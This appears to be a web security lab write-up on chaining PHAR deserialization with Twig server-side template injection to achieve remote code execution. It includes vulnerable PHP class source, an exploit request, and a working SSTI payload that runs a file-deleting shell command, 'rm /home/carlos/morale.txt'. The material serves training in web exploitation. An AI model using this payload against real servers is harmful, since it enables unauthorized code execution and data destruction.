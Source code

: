        function __destruct() {
            // Carlos thought this would be a good idea
            @unlink($this->lockFilePath());
        }

        private function lockFilePath()
        {
            return 'templates/' . $this->template_file_path . '.lock';
        }
    }

    ?>

`Blog.php~`:

    <?php

    require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

    class Blog {
        public $user;
        public $desc;
        private $twig;

        public function __construct($user, $desc) {
            $this->user = $user;
            $this->desc = $desc;
        }

        public function __toString() {
            return $this->twig->render('index', ['user' => $this->user]);
        }

        public function __wakeup() {
            $loader = new Twig_Loader_Array([
                'index' => $this->desc,
            ]);
            $this->twig = new Twig_Environment($loader);
        }

        public function __sleep() {
            return ["user", "desc"];
        }
    }

    ?>

Notice that PHP automatically deserializes objects when calling `file_exists()` on a `phar://` stream. If we can set `template_file_path` to `phar://wiener`, it will deserialize our malicious avatar file.

Studying the code, we found a sink that our RCE would be passed into is in the `__wakeup()` magic method where we can inject server-side template into Twig template engine via `$desc='{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'`. 

Step-by-Step Execution Chain:
| **Step** | **Action** | **Why It Happens?** |
|----------|-----------|---------------------|
| **1** | Upload PHAR-JPG payload | The PHAR file is stored as `wiener.jpg` |
| **2** | Modify request: `GET /cgi-bin/avatar.php?avatar=phar://wiener` | Forces PHP to read the PHAR archive |
| **3** | `file_exists('phar://wiener')` runs in `CustomTemplate::isTemplateLocked()` | **Triggers PHAR deserialization** |
| **4** | `CustomTemplate` object in metadata is deserialized | The `Blog` object inside it is processed |
| **5** | Blog's `__wakeup()` runs | Twig is initialized with our **SSTI payload** from `Blog->desc` |
| **6** | SSTI payload executes | Executes `rm /home/carlos/morale.txt` |
